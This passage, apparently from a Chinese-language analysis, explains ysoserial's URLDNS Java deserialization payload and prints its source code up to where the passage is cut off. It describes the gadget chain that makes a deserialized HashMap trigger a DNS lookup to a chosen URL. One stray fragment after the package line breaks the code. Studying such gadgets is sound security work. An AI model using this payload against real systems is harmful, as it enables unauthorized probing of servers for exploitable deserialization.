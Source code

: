 ## 分析

URLDNS代码如下：

```java
package me.gv7.woodpecker.yso.payloads;
me.gv7.woodpecker.yso.

import java.io.IOException;
import java.net.InetAddress;
import java.net.URL;
import java.net.URLConnection;
import java.net.URLStreamHandler;
import java.util.HashMap;

import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.annotation.Dependencies;
import ysoserial.payloads.annotation.PayloadTest;
import ysoserial.payloads.util.PayloadRunner;
import ysoserial.payloads.util.Reflections;

/**
 * 关于这个漏洞利用链（gadget chain），有一篇包含更多详细信息的博客文章，网址如下：
 *   https://blog.paranoidsoftware.com/triggering-a-dns-lookup-using-java-deserialization/
 *
 * 此思路的灵感来自 Philippe Arteau（@h3xstream），他曾撰写博客文章，描述了自己如何修改 ysoserial 中的 Java Commons Collections 利用链来打开一个 URL。
 * 这个实现采用了相同的思路，但去除了对 Commons Collections 的依赖，仅使用标准 JDK 类来执行 DNS 查找。
 *
 * Java 的 URL 类在其 equals 和 hashCode 方法上有一个有趣的特性。在进行比较（无论是 equals 还是 hashCode 操作）时，URL 类会产生一个副作用，即执行 DNS 查找。
 *
 * 作为反序列化过程的一部分，HashMap 会对其反序列化的每个键调用 hashCode 方法，因此使用 Java URL 对象作为已序列化的键，就能够触发 DNS 查找。
 *
 * 漏洞利用链（Gadget Chain）流程：
 *     HashMap.readObject()
 *       ↓
 *       HashMap.putVal()
 *         ↓
 *         HashMap.hash()
 *           ↓
 *           URL.hashCode()
 *
 */
@SuppressWarnings({ "rawtypes", "unchecked" })
@PayloadTest(skip = "true")
@Dependencies()
@Authors({ Authors.GEBL })
public class URLDNS implements ObjectPayload<Object> {

    /**
     * 生成可触发 DNS 查找的反序列化利用对象
     * @param url 要触发 DNS 查找的目标 URL 字符串
     * @return 包含特殊构造 URL 作为键的 HashMap 对象，用于后续反序列化触发 DNS 查找
     * @throws Exception 执行过程中可能抛出的异常（如反射操作异常、IO 异常等）
     */
    public Object getObject(final String url) throws Exception {

        // 在创建 payload 期间避免 DNS 解析
        // 因为 java.net.URL.handler 字段是 transient（瞬时）的，它不会成为序列化后 payload 的一部分
        URLStreamHandler handler = new SilentURLStreamHandler();

        HashMap ht = new HashMap(); // 用于存放 URL 的 HashMap
        URL u = new URL(null, url, handler); // 用作键的 URL 对象
```